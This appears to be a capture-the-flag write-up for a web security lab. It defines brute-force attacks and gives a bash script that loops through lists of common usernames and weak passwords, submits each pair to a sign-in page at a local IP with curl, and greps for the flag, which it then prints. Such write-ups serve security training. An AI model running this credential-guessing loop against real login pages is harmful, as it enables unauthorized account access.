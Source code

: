 # Brute Force
The basis of a brute force consists of an attacker submitting many passwords or passphrases with the hope of eventually guessing correctly.

IP=192.168.1.67
usernames=(root admin test guest info adm mysql user administrator oracle ftp pi puppet ansible ec2-user vagrant azureuser)
passwords=(root admin test shadow matrix ghost sleeper slider guest 123456 aaron jun rebecca einstein anna sara singnin amy 12345 !@#$%^ 555555 tracy  password1)

for user in ${usernames[@]}; do
  for pass in ${passwords[@]}; do
    echo "http://$IP/index.php?page=signin&username=${user}&password=${pass}&Login=Login#"
	  curl -X POST "http://$IP/index.php?page=signin&username=${user}&password=${pass}&Login=Login#" | grep 'flag' && exit 1 || continue
  done
done

The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
